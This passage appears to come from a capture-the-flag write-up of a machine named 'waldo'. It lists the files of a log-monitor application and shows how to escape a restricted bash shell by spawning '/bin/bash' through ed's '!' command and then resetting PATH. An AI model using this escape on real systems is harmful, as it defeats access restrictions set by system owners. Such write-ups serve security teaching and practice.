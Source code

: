 ```bash
drwxrwx--- 3 app-dev monitor    4096 May  3 16:50 .
drwxr-x--- 5 root    monitor    4096 Jul 24 07:58 ..
-rwxrwx--- 1 app-dev monitor   13704 Jul 24 08:10 logMonitor
-r--r----- 1 app-dev monitor   13704 May  3 16:50 logMonitor.bak
-rw-rw---- 1 app-dev monitor    2677 May  3 16:50 logMonitor.c
-rw-rw---- 1 app-dev monitor     488 May  3 16:50 logMonitor.h
-rw-rw---- 1 app-dev monitor 2217712 May  3 16:50 logMonitor.h.gch
-rw-rw---- 1 app-dev monitor    6824 May  3 16:50 logMonitor.o
-rwxr----- 1 app-dev monitor     266 May  3 16:50 makefile
-r-xr-x--- 1 app-dev monitor     795 May  3 16:50 .restrictScript.sh
drwxr-x--- 2 app-dev monitor    4096 May  3 16:50 v0.1
monitor@waldo:~$ ls -al /home/monitor/app-dev/v0.1
total 24
drwxr-x--- 2 app-dev monitor  4096 May  3 16:50 .
drwxrwx--- 3 app-dev monitor  4096 May  3 16:50 ..
-r-xr-x--- 1 app-dev monitor 13706 May  3 16:50 logMonitor-0.1
```

Fortunately, we can use ```ed``` to spawn a shell<sup>[3]</sup>.  It is odd that ```red``` (restricted editor) points to the unrestricted version (```ed```), but we will use that to our advantage.

To spawn a shell inside of ```ed```, we use the ```!``` command which allows us to run a command.  We will run a shell:
```
!'/bin/bash'
```
![unrestricted](screenshots/10_escape_rbash_monitor.PNG)

We can now run commands which we could not before (like ```ps```).  To restore a more traditional path, you can set the ```PATH``` like so:
```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

I started by looking around at the files inside of /home/monitor/app-dev.  logMonitor.c gave us an idea of what the log monitor program does:
```c
/*******************************************
*
*This is an application to print out common log files
*
********************************************/
```
If we look through the source code, we can see that we can use command line switches to specify one or more files:


[1]: http://php.net/manual/en/function.str-replace.php "str_replace Documentation (php.net)"
[2]: https://tipstrickshack.blogspot.com/2013/02/how-to-bypassing-filter-to-traversal_8831.html "Bypassing Filter to Traversal Attacks"
[3]: https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/ "Restricted Linux Shell Escaping Techniques"
[4]: https://linux.die.net/man/7/capabilities "capabilities man page"
[5]: https://linux.die.net/man/1/tac "tac man page"